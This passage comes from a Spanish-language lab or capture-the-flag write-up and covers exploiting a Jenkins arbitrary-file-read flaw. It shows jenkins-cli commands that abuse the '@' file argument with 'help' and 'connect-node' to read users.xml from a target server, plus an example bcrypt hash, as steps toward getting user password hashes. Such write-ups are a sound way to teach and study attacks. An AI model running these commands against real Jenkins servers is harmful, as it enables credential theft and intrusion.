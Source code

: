 Del cual obtenemos nuestro hash de contraseña

```bash
<passwordHash>#jbcrypt:$2a$10$ZuR0naycyABb5PH26DIsNuLbrEHBOmAL21lj3nxCrNb.chGXs7RVi</passwordHash>
```

Entonces, hemos encontrado una forma válida de extraer hashes de contraseñas y nombres de usuarios de una instalación de Jenkins. Probémoslo en el servidor remoto usando la opción de lectura de archivos arbitrarios nos dirigimos a nuestra terminal y ejecutamos.

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://{target_IP}:8080'
help "@/var/jenkins_home/users/users.xml"
```

Pero solo obtenemos las 2 primeras lineas, se uso help en primer lugar para ver si el directorio y por ende el archivo existe

Ahora que sabemos que el archivo existe nos disponemos a usar node

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://{target_IP}:8080' connect-node "@/var/jenkins_home/users/users.xml"
```

Nota: El comando connect-node funcionó porque el atributo denyAnonymousReadAccess se configuró en falso en el host remoto (informacion que se obtiene al investigar la vulnerabilidad en el CVE 2024), lo que significa que tenemos privilegios de lectura como usuario anónimo.

![s2.12](./imgs-builder/i20.png)

De esta informacion lo mas relevante que obtenemos es:

```bash
# El usuario : jennifer
jennifer
# La ruta del directorio
jennifer_12108429903186576833
# Al igual que en nuestro jenkins anteriormente configurado en docker, deducimos que ambas versiones tienen la misma ruta, entonces ya tenemos el directorio para acceder al archivo config.xml
```

como ya habiamos visto en anteriores pasos, en jenkins dentro de esa ruta se almacena un archivo de configuración

![s2.13](./imgs-builder/i22.png)
